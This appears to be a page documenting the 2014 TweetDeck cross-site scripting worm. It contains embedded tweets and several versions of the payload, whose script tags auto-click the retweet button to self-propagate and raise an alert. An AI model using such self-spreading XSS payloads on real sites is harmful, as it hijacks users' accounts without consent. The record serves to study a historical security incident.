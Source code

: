 
<blockquote class="twitter-tweet" lang="en"><p>We&#39;ve temporarily taken TweetDeck services down to assess today&#39;s earlier security issue. We&#39;ll update when services are back up.</p>&mdash; TweetDeck (@TweetDeck) <a href="https://twitter.com/TweetDeck/status/476770732987252736">June 11, 2014</a></blockquote>

---

<blockquote class="twitter-tweet" lang="en"><p>&lt;script class=&quot;xss&quot;&gt;
$(&#39;.xss&#39;).parents().eq(1).find(&#39;a&#39;).eq(1).click();
$(&#39;[data-action=retweet]&#39;).click();
<br>alert(&#39;XSS in Tweetdeck&#39;)&lt;/script&gt;<img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;"></p>&mdash; *arrrrndy (@derGeruhn) <a href="https://twitter.com/derGeruhn/status/476764918763749376">June 11, 2014</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

---

&lt;script>

&nbsp;

&nbsp;

alert('XSS in Tweetdeck');

&lt;/script><img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">
---

&lt;script>

&nbsp;

$('[data-action=retweet]').click();

alert('XSS in Tweetdeck');

&lt;/script><img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">

---

&lt;script class="xss">

&nbsp;

$('[data-action=retweet]').click();

alert('XSS in Tweetdeck');

&lt;/script><img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">

---

&lt;script class="xss">

$('.xss').parents().eq(1).find('a').eq(1).click();

$('[data-action=retweet]').click();

alert('XSS in Tweetdeck');
